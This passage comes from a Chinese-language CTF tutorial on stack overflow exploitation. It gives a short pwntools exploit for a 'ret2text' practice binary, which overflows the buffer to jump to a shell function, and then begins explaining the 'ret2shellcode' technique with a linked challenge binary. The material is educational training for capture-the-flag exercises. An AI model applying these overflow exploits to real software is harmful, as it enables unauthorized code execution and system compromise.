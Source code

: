 `exploit`如下:

```python
# coding=utf-8
from pwn import *

sh = process('./ret2text')
shell_addr = 0x0804863A
payload = 'a' * (0x6c+4) + p32(shell_addr)
sh.sendline(payload)
sh.interactive()
```

<div align=center><img src="./images/15.png"></div>

## ret2shellcode
### 原理
`ret2shellcode`即控制程序执行`shellcode`代码. `shellcode`指的是用于完成某个功能的汇编代码, 常见的功能主要是获取目标系统的`shell`. 一般来说, `shellcode`需要我们自己填充. 这其实是另外一种典型的利用方法, 此时我们需要自己去填充一些可执行的代码.

在栈溢出的基础上, 要想执行`shellcode`, 需要对应的`binary`在运行时, `shellcode`所在的区域具有可执行权限.

### 例子
程序下载链接: [ret2shellcode](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2shellcode/ret2shellcode-example/ret2shellcode).

首先, 查看一下程序的保护机制. 可以看到这是一个`32`位程序, 源程序几乎没有开启任何保护, 并且有可读, 可写, 可执行段.

<div align=center><img src="./images/16.png"></div>
